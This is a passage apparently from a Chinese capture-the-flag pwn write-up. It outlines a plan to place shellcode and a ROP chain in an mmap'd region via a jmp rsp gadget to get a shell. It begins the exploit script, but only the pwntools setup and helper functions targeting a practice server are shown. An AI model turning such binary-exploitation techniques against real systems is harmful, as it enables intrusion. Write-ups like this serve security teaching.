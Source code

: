 ```plain
32+8=40
```

[![](assets/1701612140-8570dc93c4caa0a0dd393ef55e1de923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203630-5c4cca76-3b68-1.png)

知道了起始地址，这段空间大小 0x1000，也就是说 read 里面读取到哪里都无所谓反正 mmap\_place+x<=max\_place 就可以，后面那个 0x100 是读取大小

所以思路也就有了：

*   首先构造我们的 shellcode
*   利用 jmp\_rsp，跳转到给我们提供 mmap 的内存这里写入我们的 ROP 链
*   getshell

先上 exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",25757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
```